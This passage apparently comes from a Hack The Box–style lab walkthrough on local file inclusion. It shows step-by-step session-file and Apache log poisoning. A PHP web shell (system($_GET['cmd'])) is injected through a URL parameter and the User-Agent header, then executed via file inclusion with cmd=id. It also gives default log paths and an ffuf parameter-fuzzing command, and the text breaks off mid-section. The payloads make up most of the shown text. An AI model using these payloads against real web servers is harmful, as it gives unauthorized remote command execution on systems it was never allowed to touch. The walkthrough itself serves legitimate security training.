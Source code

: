 The payload below will write the malicious code to the log file.

```
http://{TARGET_IP}:{TARGET_PORT}/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Read the log file to execute the malicious code:
```
http://{TARGET_IP}:{TARGET_PORT}/index.php?language=/var/lib/php/sessions/sess_g5ds0eji4klqpmn82iid4gmsrm&cmd=id
```

### Server Log Poisoning

By default, `Apache logs` are located in `/var/log/apache2/` on `Linux` and in `C:\xampp\apache\logs\` on `Windows`, while `Nginx logs` are located in `/var/log/nginx/` on `Linux` and in `C:\nginx\log\` on `Windows`.

```
http://{TARGET_IP}:{TARGET_PORT}/index.php?language=/var/log/apache2/access.log
```

Intercept the request with Caido and add the malicious payload in the User Agent header:

```
<?php system($_GET['cmd']); ?>
```

```
curl -s "http://{TARGET_IP}:{TARGET_PORT}/index.php" -A "<?php system($_GET['cmd']); ?>"
```


## Automated Scanning

### First we'll use ffuf with seclists `burp-parameter-names` wordlist.

```
 ffuf -w /usr/share//seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2309
```

![Paramter Recon](/images/htb/file-inclusion/automation-parameter-recon.png)

### Using Caido with LFI-Jhaddix wordlist:
